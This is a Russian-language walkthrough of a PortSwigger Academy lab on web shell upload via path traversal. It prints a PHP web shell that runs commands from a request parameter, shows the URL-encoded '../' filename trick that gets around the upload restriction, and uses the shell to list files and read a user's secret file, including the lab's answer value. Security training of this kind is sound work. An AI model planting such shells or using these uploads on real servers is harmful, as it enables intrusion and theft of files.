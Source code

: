 Залогинимся под `wiener:peter` и загрузим `explot.php` в качестве нашей аватарки на уязвимый ресурс и найдем данный запрос в `Proxy` -> `HTTP history`
Внутрянка файла `explot.php` следующего вида
```
<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>
```
И видим, что он был успешно загружен
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/8.%20File%20upload%20vulnerabilities/3.%20Web%20shell%20upload%20via%20path%20traversal/pics%20for%20walktrough/1.png)
Но достучаться до него у нас не получается, выдает 404 респонс статус код
```
GET /files/exploit.php
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/8.%20File%20upload%20vulnerabilities/3.%20Web%20shell%20upload%20via%20path%20traversal/pics%20for%20walktrough/2.png)
Чтобы обойти вышеописанный запрет, вернемся к запросу о загрузке нашего `explot.php`, и изменим параметр `filename` с `exploit.php` на `../exploit.php`, или же в URL-кодировке `%2e%2e%2fexploit.php`
```
POST /my-account/avatar
...
filename="%2e%2e%2fexploit.php"
...
```
И видим, что он успешно загрузился
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/8.%20File%20upload%20vulnerabilities/3.%20Web%20shell%20upload%20via%20path%20traversal/pics%20for%20walktrough/3.png)
Попробуем до него достучаться `GET` запросом и видим, что нам это удалось
```
GET /files/exploit.php
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/8.%20File%20upload%20vulnerabilities/3.%20Web%20shell%20upload%20via%20path%20traversal/pics%20for%20walktrough/4.png)
Далее воспользуемся шеллом и посмотрим что находится в нашей директории
```
GET /files/exploit.php?cmd=ls
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/8.%20File%20upload%20vulnerabilities/3.%20Web%20shell%20upload%20via%20path%20traversal/pics%20for%20walktrough/5.png)
Отлично, теперь узнаем секрет УЗ `carlos`
```
GET /files/exploit.php?cmd=cat+/home/carlos/secret
```
в ответ получаем значение `gAipPE8uVhDXcO4Cbxw3PchNsRmTpc8Y`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/8.%20File%20upload%20vulnerabilities/3.%20Web%20shell%20upload%20via%20path%20traversal/pics%20for%20walktrough/7.png)
Сдадим значение `gAipPE8uVhDXcO4Cbxw3PchNsRmTpc8Y` как ответ, и получим уведомление об успешно выполненной лабораторной работе
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/8.%20File%20upload%20vulnerabilities/3.%20Web%20shell%20upload%20via%20path%20traversal/pics%20for%20walktrough/6.png)
